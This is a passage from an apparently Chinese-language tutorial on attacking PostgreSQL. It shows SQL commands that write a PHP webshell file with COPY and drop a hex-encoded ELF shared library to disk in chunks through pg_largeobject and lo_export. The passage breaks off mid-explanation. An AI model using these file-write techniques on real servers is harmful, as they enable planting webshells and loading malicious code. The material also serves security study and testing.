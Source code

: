 ```
 pg_catalog | lo_truncate64                            | integer                  | integer, bigint                                                                                              
                                                                                                            
 pg_catalog | lo_unlink                                | integer                  | oid                                                                                                      
```
  
### 写
写文件分为两个部分，一个是写 webshell，另外一个是写二进制文件。   
  
写 webshell 十分简单，利用：   
  
```
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```
    
即可写一个文件。   
    
根据疯狗的这一篇帖子：   
    
http://zone.wooyun.org/content/4971  
  
，说是可以利用PostgreSQL 的“大对象数据”来写，但是我测试是失败的。报错如下：   
```
ERROR:  pg_largeobject entry for OID 2008, page 0 has invalid data field size 2378
```
    
用 COPY 语句，format 为 binary 的情况下来写文件的话，会被 PostgreSQL 加上几个字节，导致不能识别为 ELF 文件。   
  
实际上，阅读官方文档可知，写的文件每一页不能超过 2KB，所以我们要把数据分段：   
  
```
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);
```
  
其中每一段都要小于等于 2KB，这样就可以成功写入：   
  